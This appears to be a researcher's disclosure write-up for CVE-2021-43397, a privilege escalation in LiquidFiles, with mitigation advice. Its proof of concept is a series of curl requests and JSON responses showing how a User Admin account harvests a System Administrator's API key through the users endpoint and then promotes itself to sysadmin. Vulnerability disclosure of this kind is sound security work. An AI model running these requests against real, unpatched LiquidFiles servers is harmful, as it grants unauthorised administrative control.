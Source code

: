 ```yaml
---
image: /assets/img/liquidfiles_logo.png
categories: [cve, pentest]
---
```


![thumbnail](https://i.imgflip.com/62gg79.jpg)

## Executive summary

Me and 2 other collegues were performing a test for our customers and we discovered a Privilege Escalation from "User Admin" user to "System Administrator" user on LiquidFiles framework.

LiquidFiles is a secure file transfer system for person-to-person email communication. Using LiquidFiles API, a "User Admin" user could list all the application registered users, retrieving information such as their API keys, including those of the System Administrators. 

As per LiquidFiles documentation, API key is used as HTTP basic authentication in order to authenticate to the
LiquidFiles system. A malicious "User Admin" user, by using a "System Administrator"'s API key, can obtain the role of System Administrator and can administer all aspects of the LiquidFiles system.

The impact of a successful attack includes: obtaining access to all aspects of the LiquidFiles system of the application via the System Administrator API key.

This vulnerability was credited by MITRE with id: [CVE-2021-43397](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-43397) and the original publication is hosted on [packet storm](https://packetstormsecurity.com/files/164997/LiquidFiles-3.5.13-Privilege-Escalation.html).

## Proof of Concept

1. Get the API key of your own user-admins user
    ```bash
    cURL Request:
    curl -X POST -H "Accept: application/json" -H "Content-Type: application/json" -d '{"user":{"email":"[user-admins_user_mail]","password":"[CENSORED]"}}' https://[CENSORED]/login
    
    Response:
    {"user":{"api_key":"[user-admins_user_API_key]"}}
    ```

2. Get a sysadmins' API key
    ```bash
    cURL Request:
    curl -s -X GET --user "[user-admins_user_API_key]:x" -H "Accept: application/json" -H "Content-Type: application/json" https://[CENSORED]/admin/users

    Response:
    [TRUNCATED]
    {"user":
    {
        "id": "[CENSORED]",
        "email": "[CENSORED]",
        "name": "[CENSORED]",
        "group": "sysadmins",
        "max_file_size": 0,
        "filedrop": "disabled",
        "filedrop_email": "disabled",
        "api_key": "[sysadmins_user_API_key]",
        "ldap_authentication": "false",
        "locale": "",
        "time_zone": "",
        "strong_auth_type": "",
        "strong_auth_username": "",
        "delivery_action": "",
        "phone_number": "",
        "last_login_at": "2021-10-29 10:02:11 UTC",
        "last_login_ip": "[CENSORED]",
        "created_at": "2020-06-30 10:49:38 UTC"
    }
    },
    [TRUNCATED]
    ```

3. Modify the group of your own user-admins user from "user-admins" to "sysadmins"
    ```bash
    cURL Request:
    cat <<EOF | curl -s -X PUT --user "[sysadmins_user_API_key]:x" -H "Accept:
    application/json" -H "Content-Type: application/json" -d @- https://
    [CENSORED]/admin/users/<user-admins_user_id>
    {"user":
    {
        "name": "[user-admins_user_name]",
        "group": "sysadmins"
    }
    }
    EOF

    Response
    {"user":
        {
            "id": "[CENSORED]",
            "email": "[CENSORED]",
            "name": "[CENSORED]",
            "group": "sysadmins",
            "max_file_size": 0,
            "filedrop": "disabled",
            "filedrop_email": "disabled",
            "api_key": "[CENSORED]",
            "ldap_authentication": "true",
            "locale": "",
            "time_zone": "",
            "strong_auth_type": "",
            "strong_auth_username": "",
            "delivery_action": "",
            "phone_number": "",
            "last_login_at": "2021-11-03 13:31:58 UTC",
            "last_login_ip": "[CENSORED]",
            "created_at": "2021-03-03 11:48:37 UTC"
        }
    }
    ```

4. Verify that your own user-admins user is now a sysadmins one.
    ```bash
    cURL Request
    curl -X GET -H "Accept: application/json" -H "Content-Type: application/json" --user [user-admins_user_API_key]:x https://[CENSORED]/admin/users/<user-admins_user_id>

    Response
    {"user":
        {
            "id": "[CENSORED]",
            "email": "[CENSORED]",
            "name": "[CENSORED]",
            "group": "sysadmins",
            "max_file_size": 0,
            "filedrop": "disabled",
            "filedrop_email": "disabled",
            "api_key": "[CENSORED]",
            "ldap_authentication": "true",
            "locale": "",
            "time_zone": "",
            "strong_auth_type": "",
            "strong_auth_username": "",
            "delivery_action": "",
            "phone_number": "",
            "last_login_at": "2021-11-03 13:34:36 UTC",
            "last_login_ip": "[CENSORED]",
            "created_at": "2021-03-03 11:48:37 UTC"
        }
    }
    ```

## Mitigation and Remediation

To mitigate this vulnerability, the solution is to disable API calls for "Admins" group. Nevertheless, it is suggested to update the solution, as LiquidFiles released an [official patch](https://man.liquidfiles.com/release_notes/version_3-6-x.html) in version 3.6.3.


## Conclusion

It was great to discover this vulnerability and very satisfying to be awarded a CVE, I could get used to it :wink:. If you want a better article for this CVE, look at the one from my collegue [here](https://nananan.github.io/posts/liquid-files-cve/).